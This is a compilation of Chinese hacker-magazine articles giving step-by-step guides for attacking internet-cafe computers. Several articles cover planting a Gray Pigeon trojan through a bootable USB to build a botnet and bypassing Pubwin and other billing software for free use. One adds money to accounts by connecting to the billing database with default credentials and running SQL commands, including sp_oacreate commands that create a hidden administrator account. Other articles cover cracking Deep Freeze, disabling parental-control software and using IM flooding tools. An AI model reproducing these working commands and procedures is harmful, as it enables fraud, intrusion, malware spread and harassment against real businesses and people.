第一步：使用U盘格式化工具按图2所示来格式化U盘。注意，格式化前请一定要备份好你优盘里的资料，这可是格式化你的优盘啊！


第二步：下载“雨林木风PE工具箱 Y1.1”并安装，安装完毕后不要重新启动电脑，本文是下载到C盘根目录后进行安装的，注意下载的目录不同，会出现和下文不一样的结果。


第三步：把C盘里“YlmF_PH”文件夹和boot.ini、bootfont.bin、NTDETECT.COM、ntldr、phldr、winnt.sif、ylph.lst、ylphpe.is_、unins000.exe这九个文件复制到U盘中。“YlmF_PH”和这九个文件都是系统文件，因此我们直接是看不到的，可以打开“我的电脑”，选择“工具”下的“文件夹选项”，再选择“查看”，把“隐藏受保护的操作系统文件”前面的勾去掉就能看到了（图3）。

第四步：重启电脑，在启动时按DEL调出BIOS设置菜单，在BIOS的第一启动顺序里选择Usb - HDD启动，接着按F10保存。电脑会自动重启，此时别忘了把优盘插上。稍等片刻就会出现“选择启动系统”的界面，在“选择启动系统”画面会出现“雨林Pe工具箱”选项，选择此项（图4），然后选择第一项进入WinPE系统（图5）。


第五步：对磁盘进行操作，来看一下“我的电脑”，我们会发现盘符和原来的不大一样（图6）。进入“C:\Documents and Settings\new\「开始」菜单\程序\启动”文件夹，把你要运行的程序存放进去（图7），至于捆绑、替换等等都由你了！为了隐蔽，最好是运行后自删除的程序或使用 attrib +s +h +r 给程序添加上系统、隐藏和只读属性。

第六步：重启电脑，拔下优盘，正常进入系统，我刚才存放进去的灰鸽子服务端程序被运行了，肉鸡自动的上线了（图8）。


第七步：在网吧里反复更换电脑，然后使用相同的方法种木马来增加“肉鸡”的数量，相信不久你也可以像网管一样来管理网吧中的任何电脑了！

使用该方法基本上能够突破一切还原设备，对网吧来说可是致命的打击，也希望看到本文的读者能够从技术方面来研究，不要去做坏事。

（本文所涉及到的U盘格式化工具和雨林木风WINPE已收录到光盘中）

### 三招送 Pubwin2007 上西天

lryyddy

对于那些经常在网吧上网的朋友，最讨厌的可能就是网吧中的管理软件了。我们这儿网吧中的管理软件最近从万象 2004 一夜之间变成了 Pubwin2007，以前辛辛苦苦学会的针对万象的那些招式全部失效了，真是令人郁闷呀。不过郁闷之后就应该考虑如何将 Pubwin2007 干掉了，经过我的努力终于找出了三个近乎完美的方法可以干掉 Pubwin2007。

#### 一、一夫当关，万夫莫开

这一招是我在网上看到的，就是利用防火墙截断客户端与计费主机之间的连接。我使用的软件是金山网镖 2005，比起新版本本来这个版本只有几百 K，安装速度非常快。安装完毕后，将局域网安全级别设置为高，再点托盘区的电脑图标，那就是 Pubwin2007 的服务端，在菜单中点查看消息信息，防火墙就会弹出询问，询问我们是否允许 PubwinClient.exe 访问网络，当然是禁止了，然后在金山网镖中将 PubwinClient.exe 中的互联网、局域网、邮件均设置为禁止，如图 1，接下来再查看消息信息就会弹出如图 2 所示的错误提示。


图1

注意，如果是测试版的金山网镖，只有一个安全设置，设置为高后网页可以浏览，也可以下载，但有的网络游戏就不能玩了，例如跑跑卡丁车等。我们去吧台结帐，但你的电脑不会关机了，就可以继续在网上畅游了。

#### 二、霸王硬上弓

上面那招是软的，下面我们来点硬的。要知道 Pubwin2007 的登录界面是处于最顶层的，而且系统也会自动检测是否处于顶层，并且检测的间隔时间是以毫秒计算的，我们还知道对于 NT 内核的系统，CTRL+ALT+DEL 这个热键也是非常重要的，很难被屏蔽掉。所以我们在登录界面时按下 CTRL+ALT+DEL，任务管理器就会不断闪烁（打开又被掩盖）。

在登录界面正确的输入卡号和密码登录系统这是正常的做法，然而今天我们要用到却是非常的手法，否则怎么把它送上西天呢？把光标定位在卡号或密码的输入框内，然后切换到系统自带的智能 ABC 输入法，相信看到这儿可能有许多朋友都已经猜到了，是的，我们就是使用智能 ABC 的那个 BUG 来使程序出错。依次输入 V 键、↑键、DEL 键、回车键，这时候程序就会出现错误，如图 3。


图3

一直在不断的检测，这样任何程序都无法操作，就连任务管理器这样处于顶层的程序也会被替代，出错后，计费系统就停止了所有代码的运行，不会再检测并置顶了，但此时登录界面还是处于最顶层，这样如果有新的窗口弹出并且是处于顶端的，那就可以把登录界面给替代掉，那调用什么程序并且其界面要处于顶端呢？使用任务管理器就是最好的选择！它不但能结束进程和相关的窗口，最重要的是还能执行新的程序（注意，这时不要结束 Pubwin2007 的进程），调出任务管理器（如果按 CTRL+ALT+DEL 不行的话，还可以试试 CTRL+SHIFT+ESC），在应用程序中点新任务，选中桌面的 IE 运行，如果想进入磁盘，就在地址栏中输入“盘符：/”就可以了，然后在任务管理器中选中任意窗口（不要 Client）点右键，选择前置，那个窗口就会处于最上层了，剩下的就是免费玩机了^_^！

#### 三、偷天换日

我们知道有 PubwinClient.exe 这个进程如果被结束的话，计费主机会发送指令让 PubwinClient.exe 再次启动，而且系统判断在 Pubwin2007 的安装目录下如果找不到 PubwinClient.exe，就会在 10 秒后自动关机，所以我决定将 PubwinClient.exe 替换掉。进入 C:\Windows 目录，找到 explorer.exe，将它拷到 PubwinClient.exe 目录中，一般默认是在 C:\Program Files\Hintssoft\PubwinClient 文件夹中，如图 4。

调出任务管理器结束掉 PubwinClient.exe 这个进程（如果禁止了任务管理器，可以使用辅助工具，比如冰刀），将 explorer 更名为 PubwinClient 并替换掉原文件，如图 5。

再次调出任务管理器，将 explorer.exe 这个进程结束掉，切换到应用程序选项中，点新任务，到 Pubwin2007 的安装目录中，选择更改过的 PubwinClient 并执行，这样就破解成功了，如果记费主机发送指令的话就会运行 explorer.exe 而不是 PubwinClient.exe 了。我认为这招比较安全，被抓了可以耍赖说自己不知道，我使用这招多上了 3 个小时，网管都没来找我的麻烦。


图4


图5


图2

（文章中涉及到的工具金山网镖 2005 已经收录在光盘中）


### 小菜的Pubwin EP加钱之旅

hxiangzi

自从Pubwin4升级到了Pubwin ep，我感觉要想实现客户机的破解来进行免费上网，其危险程度比以前更大了。不过原来的Pubwin4使用的是access数据库，而现在的Pubwin ep使用的则是mssql数据库，这使得我们入侵主机给会员加钱却反而方便了！

首先查看网吧收费主机，我们使用抓包工具。打开Winsock expert，选择pubwinclient.exe进程（图1），这时开始抓包记录，点击任务栏右下角Pubwin ep的记费功能菜单，选择“查看消费信息”，此时抓包工具已经抓到了记费主机的信息（图2，图3）。


因为我们在选择“查看消费信息”的时候客户机会与记费主机建立连接，所以能够抓到信息，从上图中大家可以看到这家网吧的记费主机的IP地址是192.168.0.2。

接下来就是给会员加钱了，这是小菜们最喜欢干的事啦！我们使用“pubwin EP 充值工具”，打开工具后在“服务器IP地址”栏输入记费主机的IP地址，然后点“连接”，服务器连接成功的话会出现如图4所示的提示。如果服务器连接后半天没有反应，就说明网管屏蔽了1433端口，我们就没法使用这个工具了。


注意“余额单位分”那列中的数字，其中的100也就等于1元钱，我们直接进行修改就可以了。每个地方的网吧的系统补丁升级不一样，所以在充钱的时候可能就会稍有差别。有的网吧修改了那个数字后立马查询自己的账户就会发现已经有了钱了，而有的网吧需要再次点击任务栏右下角Pubwin ep的记费功能菜单，然后选择“会员操作”—“更改会员口令”，把上网卡的密码修改一下才会有钱。还有的网吧在充值之后只需要注销一下再查询账户就会有钱了，还有的网吧在充值后注销也不起作用，非要你结帐之后下次再来上机的时候才会有。各位小菜可以视具体情况而定！

接下来我们看看如何对临时卡进行充值，Pubwin EP 充值工具记录的都是会员的信息，对于临时卡就不起作用了，我们可以使用桂林老兵的“数据库管理助手”。打开软件后选择“连接”—“sql server”，主机栏就输入记费主机的IP地址192.168.0.2，端口使用默认的1433就可以了，数据库名称填local，用户名填netcafe，密码填pubwin，这些都是Pubwin ep数据库默认的（图5），最后点“确定”，我们就会和主机建立连接。


选择“数据库管理助手”中的“工具”—“执行sql语句”（图6），将以下这句代码输入进去：update cur_user set pre-pay=100 where uniqueid=自己的卡号，代码中的100就等于1元，想加多少的话就直接修改这个数字，然后点“执行”就OK了！有的网吧的临时卡即使充上钱也不会立即显示的，那该怎么办呢？我们可以在代码运行框中输入：declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod@shell,'run',null,'c:\windows\system32\cmd.exe /c net user admin 1234 /add'，然后点“执行”，然后再输入：declare @shell int exec


sp_oacreate 'wscript.shell',@shell output exec sp_oamethod@shell,'run',null,'c:\windows\system32\cmd.exe /c net localgroup administrators admin /add'。对于以上这两句执行的代码大家应该很熟悉吧，我们在进行sql注入的时候经常会用到这两个语句。执行后就会在服务器上建立用户名为admin，密码为1234的管理员帐号了（图7）。

拿出我们的局域网入侵利器renton v2.5，填上记费主机的IP地址以及刚才添加的用户帐号和密码（图8），选择“自动重启”，这招最狠了，我一般都是使用这招，网管都比较傻的！服务器直接重启，待电脑重新启动后，网管会重新进入Pubwin ep的管理控制端，这时候我们再看看自己卡上的钱，就会发现已经变了。为了方便我们以后的操作，我们还可以给它种上木马，以后就不用这些繁杂的操作了，直接使用木马进行远程控制就行。

因为我是使用会员卡上机的，对于临时卡充钱就不给大家详细操作演示了，相信看了上面的介绍大家都应该明白了。关于pubwin 2007充钱的方法和pubwin ep几乎一样，如果各位读者还有什么不明白的话可以直接去黑客X档案的论坛找我，大家一起研究。

（本文所涉及到的Winsock expert、PUBWIN EP充值工具、数据库管理助手、Rector和数据库语句代码已收录到光盘中）


## 要你代理没商量

小Cal.D

代理这个东西相信大家都知道吧，其中的原理在前几期的X档案上都有介绍，我就不多说了。因为我不玩网络游戏，只是上QQ和玩hack使用代理就足够了，可后来学校把网络承包给一JS，上网的网费出奇的贵，JS还搞了一个“Ruijie Supplicant2.56.exe”（锐捷）来管理上网，至此传统的CCP代理已经不能用了，一使用代理就会出错“软件与目前工作环境相冲突”，然后就掉线了，为了突破这个可恶的代理限制，经过全院师生的努力，终于找到了两把“利剑”：LANseek和MacDIY2000。下面我就说说它们的用法。

LANseek 是一个查找局域网内活动主机IP和MAC地址的东西，其打开后的界面如图1所示。这个软件的使用很傻瓜，不用什么设置，直接点“网内扫描”就会自动扫描你所在网段内的IP和对应的MAC地址了。也许你要问了，扫描到这些又有什么用呢？别急，听我慢慢讲来。

第二把利剑MacDIY2000就要出场了（图2），这是一个MAC地址修改工具，在第一个选项选择你的网卡，将你第一步得到的MAC地址（随便一台正在上网的电脑）复制粘贴上去后点“修改”就行了（要还原也很简单，直接点“还原”就恢复了）。把网络连接禁用后再启用，看看QQ是不是上来了。不过要注意的是，我们开始扫描到的MAC地址是有分隔符“-”的，在粘贴上去时必须把分割符去掉，这样我们就实现了强制代理了，网速好的话还可以玩网络游戏哦！

（本文所涉及到的LANseek和MacDIY2000已收录到光盘中）


## 不堪一击的网吧限制

大懒猪LOVE☆Yadi

网吧里的电影很多，更新速度也不错，总想着拿U盘拷回去一些。这不看到有最新的“黄金罗盘”于是就点桌面上的快捷方式，打开网页样式的点播页面。播放此电影后，把鼠标移到播放窗口的左上角，如图1。选择使用Realplayer播放，依次选播放器中“文件”→“剪辑属性”→“查看剪辑信息”，找到了电影保存的路径。把路径复制到地址栏，回车后出现了“不允许访问资源”的提示，如图2。

把后面的路径去掉，直接输入IP地址来访问电影服务器，还是出现了不允许访问的提示，如图3（小编提示：这是因为系统本身做了限制，不过可以在运行中执行start \局域网IP\来访问共享资源）。桌面上的“游戏外挂”引起了我的注意，一般这个文件都是保存在网吧服务器上的。打开“游戏外挂”，192.168.0.253这个IP地址和刚才电影路径中的IP是同一个IP地址（图4）。既然外挂的路


# 网吧黑客

## 2008 合订本上卷

径是“\\192.168.0.253\游戏外挂”，那点击向上的按钮就退到了“\\192.168.0.253”路径下了。没提示出错，还看到了保存电影的文件夹（图 5）。

载工具。保存电影的实质是把网吧服务器上的电影复制到本机上，记得Fastcopy这个工具能加速文件复制的速度，说白了不就是复制文件用的嘛。运行Fastcopy，在“来源”中粘贴上面获得的电影的绝对路径，“目标”我选择的是D盘，其它选项默认。点“执行”，就开始复制电影了，这比普通复制要快很多哦（图 6）。


这时我又想到了Flashget下载工具，网吧点播系统有点类似网站，上面获取的电影路径中没有http等协议就不能使用下载


（本文所涉及到的Fastcopy 已收录到光盘中）

## “网络爸爸”你能奈我何？

于一真

网络爸爸（展翅鸟家长控制软件）是一款家长用来限制孩子玩电脑的软件，相信有许多小菜们还在为这个上网的拦路虎而苦恼。我就把自己破解的经历共享给大家，希望对各位能有所帮助。

很早以前我曾破解过网络爸爸这款软件，那时候这个软件的保护机制似乎很弱，在冰刃的设置中勾选上“禁止线程创建”，然后再一一结束掉它的2个进程即可关闭这个软件。现在呢？重启计算机进入桌面以后，发现电脑变得异常缓慢，调出任务管理器一看，半天无语，新版本创建调用了多少个进程啊，我可怜的计算机啊（图 1）！漫长的等待过后，总算一切正常了，后台多出了一个眼睛的图标（图 2），看来就是它了。

按照一直以来的习惯，调出冰刃，结果如图3。哈，几天不见竟然变厉害了，可是我Z也不是好欺负的，换超级巡警试试。结果它更加令我失望，进程根本就无法显示（图4）。


76


郁闷啊，漫无目的的硬盘里乱翻，突然眼睛一亮，智能杀毒伴侣。那就试试它吧，选中EagleSvr.exe进程，再点“结束进程”（图5）。后台的眼睛图标终于不见了，原来新版也不过如此啊。然而事情并没有我想象的那么简单。还没来得及把杀毒伴侣关上，大眼睛又阴魂不散的出现在了后台。

没办法，先听听歌吧，刚把鼠标移向“千千静听”，突然间发现千千的下面就是超级兔子。对了，超级兔子不是自带任务管理器吗？打开超级兔子任务管理器，将下面三个选项前的对号全部取消，看到了什么？有好多个大眼睛图标（图6）。下面就好办了，先将所有没有名字的、图标为眼睛的进程结束掉（具体方法是右键单击它，再选择“关闭窗口”），最后剩下Eaglesvr、EagleEyeSvr及关于三个进程，关于不用动它，而Eaglesvr、EagleEyeSvr这两个进程是无法结束的。但我们可以禁用它们（具体方法是右键单击它，再选择“禁用窗口”，如图7）。怎么样，将指针在后台晃晃，看大眼睛是不是已经没有了？


此时还不能算结束，因为下次启动时它还会自动启动。打开Autoruns，将网络爸爸的所有自启动取消掉（图8）。这下好了，重启一下计算机，该死的展翅鸟终于不再在后台飞翔了！乘胜追击，SHIFT加DEL将所有程序文件彻底删除。哈，到此我终于可以舒口气了！

（本文所涉及到的冰刃、Autoruns和超级兔子已收录到光盘中）

## 新菜招突破万象磁盘隐藏引发的破解

苦涩香味

最近翻了翻以前的旧杂志，发现了06年第8期上songweihanfei所写的“菜鸟招突破隐藏磁盘”一文，感觉文章中所介绍的方法很麻烦，于是我就决定去网吧寻找更简单的方法。

新年新气象，我经常去的那间网吧也升级了，带宽升到了20兆，内存也增大到128M，爽死了我这种笨菜鸟。

开机后发现使用的还是万象2004，登录后就看见桌面上那醒目的“南京条约”：1、不允许下载；2、不准浏览黄色反动网页……不管这些了，先打开QQ，然后彻彻底底TM（唉，没钱升级网盘，QQ有16M，而TM有32M，最重要的是它网盘不用排队），先打开我最喜欢的精锐网吧辅助器，居然一闪就没有了。打开迅雷也是，开始菜单被替换成了万象的。以前可是破解得很顺利的。郁闷啊，望着卡里的钱一点点地被扣掉，真是心疼呀。

先打开记事本（可以打开IE，选择“查看”——“源代码”来得到记事本），输入cmd，保存为1.dat，类型为所有文件。运行后就会弹出cmd了，可是CMD却被停用了，如图1。看来这网管也不是省油的灯。

我停止呼吸思考了N分钟，连网管大叔站在我后面也不知道，我吓得连鼠标都丢掉了。他见我有了反应就走开了。经过他这么一吓，我突然想起了网吧黑客这个可爱的东西，功能和精锐辅助器差不多，最重要的是它没有被屏蔽。通过它顺利的打开了注册表。呵呵，大叔的千年道行，唉！


先解除cmd的停用，进入到HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\System，把右边的一个双字节值项DisableCMD的值改为0，如图2。

再来到HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer，一般限制都是在这里设置的。我看到了许多可疑的值项，如图3。一气之下，我把所有的值项都删除了，如图4。

# 网吧黑客

2008 合订本上卷


退出注册表后，打开精锐辅助器不闪掉了（不闪的才是健康的），赶紧恢复限制，如图5。隐藏的磁盘都出来了，如图6，而且还是进出自由呀。


### 黑客术语小补贴

#### 什么是 Cookies 欺骗？

在对用户做 Cookies 验证的系统中，通过修改 Cookies 的内容来得到相应的用户权限登录。初级的可以修改 Cookies 的过期时间，实现永久登录。Cookies 欺骗在入侵中经常用到，例如 Leadbbs 论坛的 Cookies 欺骗漏洞。首先自己注册一个用户登录，得到 Cookies。从管理团队页面中找到管理员的 ID，然后把 Cookies 中自己用 ID 改成管理员的 ID（IEcookiesView 是专门修改 Cookies 的软件，如图7）。刷新页面后登录后台地址，输入自己密码登录后台。到此就通过 Cookies 欺骗登录成功登录后台，这个入侵方法还是很容易的吧。

## 看菜鸟来破解一卡通

在一个黑漆漆的晚上，我在网吧一个黑漆漆的角落正hacking的兴奋，突然出现了锁屏（图1），我这才意识到资金不足了。难道要去乖乖的交钱上机吗，这可不是我们突破限制寻求自由的精神。


我们这里的管理软件是“一卡通”，显示在电脑右下角托盘处的图标如图2所示。不过我们这里的网吧100%都是使用这个的（警察叔叔说的），版本可能不是很统一，但是关键进程却都是“runme.exe”（图3）。

已经处于锁屏状态，使用“ctrl+shift+esc”来调出任务管理器，一闪而过，不要紧，被锁屏画面遮住了，其实我们此刻的操作还是在任务管理器上的。使用“alt+f”打开文件菜单，选择“新建任务”，输入“CMD”，回车，已经打开了CMD窗口。此刻我们的键盘输入已经切换到CMD上了，敲入echo taskkill /f /im runme.exe>kill.bat、echo kill.bat>>kill.bat，完成之后就会在系统目录下生成一个kill.bat的批处理文件，内容如下：

```
taskkill /f /im runme.exe
kill.bat
```

最后输入kill.bat来运行它，此时runme.exe结束了，而且它自动恢复后会上被我们的批处理给kill掉。不过，系统的CPU会达到100%，不过并不会影响我们的正常使用。

为了深入的的学习，就继续进行，经过查看注册表发现了网吧管理程序是通过run键值来实现开机自启动的（图4），我们来删除它。我这里管理员密码为空，所以直接就注销了（获取系统密码的方法有很多，可以参考以前的杂志）。此时顺利进入了系统，而且管理程序没有启动哦（图5）。


为了方便以后的生存、学习，我写了个简单的批处理：

```
@echo off
rem 创建注册表脚本文件
echo Windows Registry Editor Version 5.00 >delrun.reg
echo.>>delrun.reg
echo [-HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]>>c:\delrun.reg
rem 把文件导入注册表
regedit.exe /s delrun.reg
del delrun.reg /f /q
rem 注销系统
shutdown -l
```

以后只要自己快没有钱的时候，运行一下就自由了。哈哈，天下又是我们的了。

（本文所涉及到的批处理文件已收录到光盘中）

## 冰点还原6.X之破解大全

在去年12期的杂志上曾经介绍了如何使用U盘破解冰点还原6.0的方法，但那只能算是小破了一下，只是简单的实现了在安装有冰点6.0的电脑上存储和删除一些文件，至于如何修改一些设置对于我等小菜来说就无能为力了。今天我就给大家带来了冰点还原6.X的破解大法，这可是包括6.0以及更高的6.2、6.3版本哟。

先来看一下6.0的破解方法，破解冰点6.0要用到的工具有两个：WINHEX和直接访问硬盘程序v1.1。首先我们打开WINHEX，找到$Persi0.sys，并记下它的物理扇区编号（图1），然后运行第二个工具，也就是直接访问硬盘程序v1.1。将刚才记下的物理扇区编号填到直接访问硬盘程序的LBA里面，这里是默认的D盘，如果你所在的网吧将D盘隐藏了，可以改到其它

盘去，然后点“读取扇区”（图2）。

使用WINHEX打开刚才生成的boot.ini文件，然后找到7d 6e cb dd（这个代表重启后保护硬盘），将它改为82 91 34 22（这个代表重启后不保护硬盘），修改好以后保存，然后关闭WINHENX（图3、图4）。使用直接访问硬盘程序将修改后的boot.ini写入扇区（图5）。

最后重启电脑，破解就完成了，我们可以看到右下角的图标上已经打了一个红×（图6），这就说明它已经不能还原了。另外在修改boot.ini文件前应该先备份一下，等你更改完设置后再用直接硬盘访问程序写入扇区，不然让网管看见它那可爱的熊出了问题还不来个全盘杀毒呀。

现在的一些网吧更新很快，都更新到6.2或者更高的版本

# 网吧黑客

## 2008 合订本上卷

了（图7），现在我们就来搞定它。


这次的破解比6.0的还要简单，因为有直接破解的工具，而且用法也非常简单，同时按住Alt+Ctrl+Shift+F6，调出冰点的密码验证窗口，然后打开冰点破解程序（图8），什么都不用输入，直接点“OK”，密码就这样出来了（图9）。


来试验一下，使用得到的密码进行登录，密码果然正确（图10）。我再给大家解释一下关于冰点的各个设置项的意思，以方便那些英文不好的朋友：主界面一共有四个选项，我们用到的只有前两个，分别是还原选项和密码设置。在还原选项中又有三个选项：第一个为保

80


护状态，即每次启动恢复所保护的硬盘；第二个为自由选项，比如系统正在被保护状态，我们选第二个选项，默认为1，这个1是指电脑重新启动后的一次为不保护状态，当电脑再次重启后，自动转到保护状态，那么在重启后我们所做的操作在第二次电脑重启时就会被自动保护起来；第三个为不还原状态，重启后冰点图标会不停的闪动红×，就是放弃了所有保护的硬盘，这时候运行冰点安装程序可以删除冰点。


图9


图10

好了，相信大家看完本文后再遇到安装有冰点还原系统的网吧就可以按照自己的想法修改一些设置，比如修改XP下默认线程数以方便使用各种扫描工具；也可以存储一些自己的东西等等。
（本文所涉及到的WINHEX、直接访问硬盘程序v1.1和冰点破解程序已收录到光盘中）55

## 是菜鸟就要免费

阿虚

许多菜鸟都没有自己的电脑，那要是想练电脑技术该怎么办？当然是去网吧了。但是对于许多小菜来说网费是个很大的开销，所以我就想了一些招数来免费上网，在此给菜鸟朋友公布出来，都是比较简单实用的，老鸟勿笑！

### 第一招：窗口隐藏工具来帮忙

因为网吧管理软件在电脑锁上后的那个锁屏界面是一个窗口，所以我们就可以隐藏那个窗口。这里给大家推荐一个窗口隐藏软件“Hide Window Plus”，这个软件可以让我们不用费时费力的去找出想要隐藏的窗口，只要把想隐藏的窗口对应的进程找出来就行了。运行程序后点“添加”，选择好程序后点“确定”（图1）。然后再来到“隐藏窗口”选项，设置显示和隐藏窗口的快捷键（图2）。最后就是等待电脑到时间锁上的那一刻，按下你设置的隐藏窗口的快捷键。看看吧，一切都是那么美好，而且网管软件的托盘图标也不会消失掉！


图1


图2

### 第二招：病毒带给我们的启发

大家在感染了一些病毒时有没有注意过，为什么杀毒软件和一些安全类软件打不开了。其中部分原因就是因为软件的安装目录和一个奇怪的文件夹，名如“MFC42.dll”等。这是为什么呢？因为程序在运行时要调用“MFC42.dll”这个文件，正常情况下这个文件是在系统目录下的，可是程序在运行时要先在程序当前目录下寻找“MFC42.dll”，没找到的话再去系统目录寻找。我们就是要利用这个机会，找到网管软件的安装目录，新建一个文件夹，起名“MFC42.dll”。然后把电脑注销一下，启动后，一个应用程序初始化失败的对话框弹了出来（图3），网管软件也就会像迅雷那样出错而无法启动了。


图3

### 第三招：安全工具也来帮忙

这招是我在看去年第12期杂志中的一篇文章才发现的，文章的作者让大家帮忙测试一下他自己写的软件“Dark Particle”。我测试了一下，结果却看到了这个，也就是“进程管理”选项中的“暂停进程”（图4）。“暂停进程”，这不就是将进程像看电影时暂停一样，让程序还在那里没有结束，但是却不响应了。这对于那些只判断进程中有没有网管软件的进程而选择是否重启电脑，而不检查进程有效性的网管软件就太有效了（我测试了我们当地十几家的网吧，这招全管用）。只要找出网管软件的进程（一般在“Dark Particle”中以特殊颜色显示的进程里找，非系统进程），选中它后点“暂停进程”，然后再点网管软件查看你的上机剩余时间，怎么样没反应了吧。等到了下机时间，电脑也没有被锁上。不过这只是这个软件的一个作用，这个软件在电脑安全方面也是非常有用有的。我测试时没发现什么错误，建议菜菜们必备！

# 网吧黑客

## 2008 合订本上卷

### 第四招：换个桌面来玩玩

对于这招菜菜们可一定要看好了，可以说是通杀哟！首先拿出“Super X Desktop”，这个软件可以创建出多个虚拟桌面。运行软件，这时你已经进入“虚拟桌面”了，右击系统点击菜单中软件的图标，如图5所示圈起的框1是每个桌面的名字，框2是每个桌面对应的快捷键，框3里那个“1”代表的是当前在第一个桌面上，你正在使用的桌面默认是第一个。运行好软件后，等到下机时间一到，电脑一锁，按下其它桌面的所对应的快捷键看看，可爱的桌面又回来了吧，而且网管软件的托盘图标也还在！

上面这几招都要先正常付钱上机才能够使用的，同时你开始免费上网后主机那里可是会显示你这台电脑没人，建议大家坐在网吧不太起眼的位置，然后，开玩吧！

（本文所涉及到的 Hide Window Plus、Dark Particle 和 Super X Desktop 已收录到光盘中）


图 4

图 5


## 想攻就攻，我的地盘我做主

黑枫无泪

### 一、QQ 聊天集中轰炸机飘云版

这款工具主要针对 QQ 进行消息式攻击，能够在很短的时间内向对方发送大量的自定义信息，整个发送过程无需人工干涉。工具打开后的界面如图1所示。

先在上面的“时间间隔”里设置好发送内容的时间，发送的最快速度是一秒一次，然后在下面的消息发送框中输入要发送的内容。打开 QQ 聊天窗口，然后在聊天集中轰炸机中点最下面的“开始查询”，就可以在右边框中显示出该对话框，点击下面的“开始轰炸”就可以完成了一次轰炸了。在不停“停止轰炸”的情况下工具会一直发送内容框中的内容，如图2。这款工具的特点就是只听对话框不认人，也就是说只要在工具的右边出现的对话框，都会被轰炸。这款工具的优点在于可以对多个对象进行轰炸，比如打开多少对话框就可以轰炸多少，完全可以自己选择，不过只能针对 QQ，对其他 IM 软件就没作用了。


图 1

图 2


82

### 二、即时消息 DOS 工具

那么，倘若对方不使用 QQ，而用的是 MSN，我们要如何进行消息式攻击呢？不至于我们要手工发送吧，那样不累死也会郁闷死。为了解决这个问题，我抽出时间顺便写了款“即时消息 DOS 工具”，这款工具的优点就在于可以对所有的 IM 聊天软件进行攻击，并且攻击速度和攻击效果都比“QQ 聊天集中轰炸机”要强得多。据我测试过的就有 QQ、MSN、UC、YAHOO 通、POPO、飞信、淘宝 WangWang 等。废话也不多说了，大家来看看工具的使用吧，如图 3。


使用方法非常简单，工具上面也已经写明了，“先复制一段要攻击的话，然后点击“攻击”按钮，在回到聊天窗口就可以了”。界面上一共就有两个按钮：“攻击”和“停止”。攻击的语句是自己预先设置好，也就是在可以输入的地方输入一段话，然后复制，再点击“攻击”按钮，回到聊天窗口就可以自动发送了。最上面的“每秒攻击数量”指的是一次发送多少剪切板里的内容，如果输入“5”，那么就发送 5 条刚才复制的内容，如图 4，在图中我们可以清楚的看到每条信息发送的间隔时间都在一秒之内，因为速度很快，可以看到 QQ 上面一直在提示“对不起，您说话太快了，坐下来，泡杯咖啡休息会儿吧”。


而我们刚才介绍的“QQ 聊天集中轰炸机”是没有这个提示的，如果腾迅没有限制发送时间的话，每秒发送次数可以达到很多次，从而攻击的效果会更好，具体次数我还没有测试。图 5、图 6、图 7 是其它几款 IM 软件攻击后的截图，由于条件有限，我只列举了几个常用的 IM 软件，并没有把所有的都列举出来，大家有空的话可以自己测试一下其它的 IM 软件。


### 三、网吧限制突破工具 - Eraae v1.4


对于一些经常在网吧上网的朋友，这款工具应该并不陌生，在前期几期杂志的光盘中曾经收录过 1.3 版，下边我就把最新的 1.4 版本搬出来给大家。虽然单功能来讲不能和精锐媲美，但我相信以后会越来越好的。Eraae v1.4 运行后的界面如图 8，列举了一些网吧中常见的限制破解，有些朋友也碰到过诸如注册表被禁用、任务管理器打不开、网吧限制下载等问题，那就不妨试下这款工具。

话可能会使用自己造成卡机，除此之外我还测试过一些聊天室，照样可以达到一定的效果，不过聊天室是攻击不了的，但可以达到刷屏的效果。

# 网吧黑客

所谓树大招风，有些网吧为了安全干脆直接禁用一些黑客工具、网吧破解软件和一些在线破解网站，这使得小菜们在网吧中很难混日子了。修复庆幸的是目前Eraae还没有被列入网吧黑名单，毕竟不太出名，使用的人也不多。它目前只有100多K，比精锐那儿M的个头要小多了，携带收藏都很方便，不会占用太多太大的空间位置，正是小菜玩网吧破解所必备的武器。

大家在工具的主界面中可以清楚的看到右边有一部分按钮是灰色的，这是因为我在代码中加入了自动检测功能，让工具一打开就能够检测到电脑的受限情况。工具写得很简单，大家看下就知道怎么使用了，我主要介绍一下几个比较容易搞混的功能。

#### 1.“隐藏IE选项”、“禁用IE属性”和“禁用IE安全选项”

“隐藏IE选项”指的是隐藏右键IE属性选项，如图9。“禁用IE属性”指的是打开IE的“工具”下的“Internet选项”，如图10。“禁用IE安全选项”指的是右键IE属性中的“安全”选项里的Internet安全选项自定义按钮，如图11。


#### 2.“禁用右键”、“禁用右键属性”和“右键属性禁用设置”

“禁用右键”指的是直接禁用右键功能，使右键完全失效，而“禁用右键属性”指的是右键桌面属性，还有“右键属性禁用设置”指的是右键桌面属性打开后面一些选项的禁用设置。右边的功能和左边的功能是相对应的，目前Eraae v1.4还没有被杀毒软件查杀，如果大家发现工具上有病毒那肯定是被绑马了，请大家不要使用，一定要到自己信任的站点去下载。我在1.4版本中增加了一个注销按钮，有些人可能认为是多余的，但我认为有必要增加，有些网吧是直接将注销隐藏或屏蔽掉，然而这里有的有些功能是需要注销后才能生效的。最后我在讲下“驱动盘管理”，大家看到这个可能会有疑问，这个是为解除网吧打不开盘符而增加的，可以通过工具栏中的“驱动盘管理”直接进入C盘等其它盘符。工具介绍到这里为止了，如果网吧中还存在什么限制，而工具中还没有的话，大家可以联系我，我将在下个版本中增加。


### 四、系统密码克星- XP Password Look Over v1.2

XP Password Look Over，中文翻译为“XP系统密码查看”，这款工具可以说是目前最简单的破解系统密码的工具了。其运行后的界面如图12所示，我先解释一下按钮上的英文意思，界面上总共有五个按钮，“Look Over”为“查看”，“Modification”为“修改”，“Obtain”为“获取”，“Explanation”为“介绍信息，解释”，“Exit”为“退出”。


整个工具界面分为两个部分，左边为查看系统帐号密码信息，右边为修改密码，左边系统密码查看成功率不知道有多高，由于系统的版本不一样，所以信息也不一样，不过右边的成功率可以达到100%，而且修改密码不需要你的旧密码，这种适用于遇到突发事件，密码刚改了又忘掉或者是在别人设置了密码的电脑上上网，我们可以很轻松的更改对方的密码，具体操作只要点击“Modification”，然后再点击“Obtain”就可以了，如图13，可以清楚的看到上面的提示，这种傻瓜型的工具就不在多说了。


（文章中涉及到QQ 聊天集中轰炸机飘云版、即时消息 DOS 工具、Eraae v1.4和XP Password Look Over v1.2 已经收录在光盘中）

### 什么是DNS？

